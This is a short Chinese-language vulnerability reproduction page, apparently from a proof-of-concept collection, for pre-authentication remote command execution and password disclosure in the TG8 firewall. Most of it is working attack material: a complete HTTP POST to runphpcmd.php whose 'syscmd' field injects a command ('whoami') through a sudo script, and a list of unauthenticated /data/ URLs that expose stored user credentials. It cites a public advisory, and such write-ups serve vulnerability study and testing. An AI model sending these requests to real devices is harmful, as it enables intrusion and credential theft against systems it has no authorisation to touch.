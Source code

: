 # TG8 防火墙 RCE及密码泄漏漏洞

# TG8 防火墙 RCE及密码泄漏漏洞

## 漏洞描述

TG8防火墙中存在两个漏洞，远程用户可以以用户身份执行命令而无需通过设备进行身份验证。第二个漏洞允许在不经过身份验证的情况下公开现有用户的密码。

参考链接：

- https://ssd-disclosure.com/ssd-advisory-tg8-firewall-preauth-rce-and-password-disclosure/

## 漏洞复现

### RCE

poc：

```
POST http://<server>/admin/runphpcmd.php HTTP/1.1
Host: Server
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Connection: keep-alive


syscmd=sudo+%2Fhome%2FTG8%2Fv3%2Fsyscmd%2Fcheck_gui_login.sh+<Payload>++local
```

执行whoami：

```
syscmd=sudo+/home/TG8/v3/syscmd/check_gui_login.sh+;whoami;++local
```

### 密码泄露

/data/目录下储存了登录过用户的凭据，无需登录即可访问此目录下的文件。

例如：

```
http://<server>/data/w-341.tg
http://<server>/data/w-342.tg
http://<server>/data/r-341.tg
http://<server>/data/r-342.tg
```


